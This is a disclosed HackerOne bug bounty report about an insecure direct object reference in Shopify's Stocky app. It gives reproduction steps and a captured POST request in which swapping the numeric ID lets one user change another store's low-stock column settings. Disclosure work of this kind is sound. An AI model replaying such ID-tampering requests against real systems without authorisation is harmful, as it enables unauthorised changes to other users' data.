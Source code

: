 # IDOR on stocky application-Low Stock-Varient-Settings-Columns

## Report Details
- **Report ID**: 853130
- **URL**: https://hackerone.com/reports/853130
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-18T21:17:48.882Z
- **Disclosed**: 2020-07-14T21:18:06.452Z

## Reporter
- **Username**: sreeju_kc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hello,
I have found a IDOR on stocky application Low Stock-Varient-Settings-Columns attribute, in fact malicious user can change the columns of another user.

POC:
1)Create two user A and B, login to A and create a store, test.myshopify.com login to user B and create a store test1.myshopify.com

2)Install stocky application on both the store.

3)Go to user A store and click stocky applicaton and that will take you to https://app.stockyhq.com/ and go to https://app.stockyhq.com/dashboard/ and click low stock variants.

4) Go to settings and lick Columns and change the columns settings and turn on the burpsuite and click update, you will recieve below packet.

POST /settings_for_low_stock_variants/111111 HTTP/1.1
Host: app.stockyhq.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.stockyhq.com/dashboard/low_stock
Content-Type: application/x-www-form-urlencoded
Content-Length: 968
Origin: https://app.stockyhq.com
Connection: close
Cookie: 
utf8=%E2%9C%93&_method=put&authenticity_token=HlhsW6AETAE9Mi7pLqJY%2FdE4jVWu53pNWFrVhkhLcoWuT%2FwBK6c2TDrvxWDZiRDRvwaw3DoXzZ7gAatGF4sRww%3D%3D&settings_for_low_stock_variant%5Bshow_grade%5D=0&settings_for_low_stock_variant%5Bshow_product_title%5D=0&settings_for_low_stock_variant%5Bshow_variant_title%5D=0&settings_for_low_stock_variant%5Bshow_sku%5D=0&settings_for_low_stock_variant%5Bshow_lost_per_day%5D=0&settings_for_low_stock_variant%5Bshow_reorder_point%5D=0&settings_for_low_stock_variant%5Bshow_lead_time%5D=0&settings_for_low_stock_variant%5Bshow_need%5D=0&settings_for_low_stock_variant%5Bshow_depletion_days%5D=0&settings_for_low_stock_variant%5Bshow_depletion_date%5D=0&settings_for_low_stock_variant%5Bshow_next_due_date%5D=0&settings_for_low_stock_variant%5Bshow_stock%5D=0&settings_for_low_stock_variant%5Bshow_on_po%5D=0&settings_for_low_stock_variant%5Bshow_on_order%5D=0&settings_for_low_stock_variant%5Bshow_shopify_products_only%5D=0&commit=Update

5) Replace the variants id with user B store variants id the POST request as below.

POST /settings_for_low_stock_variants/111112 HTTP/1.1


6)Send it and you can see 302 message.

7)Go to user B and look at the columns in low variants stock and you can see that the change took in place.


NB: Please find the video POC

## Impact

This is a IDOR, make sure to put in place controls

## Attachments
- shopifyappidor.mov
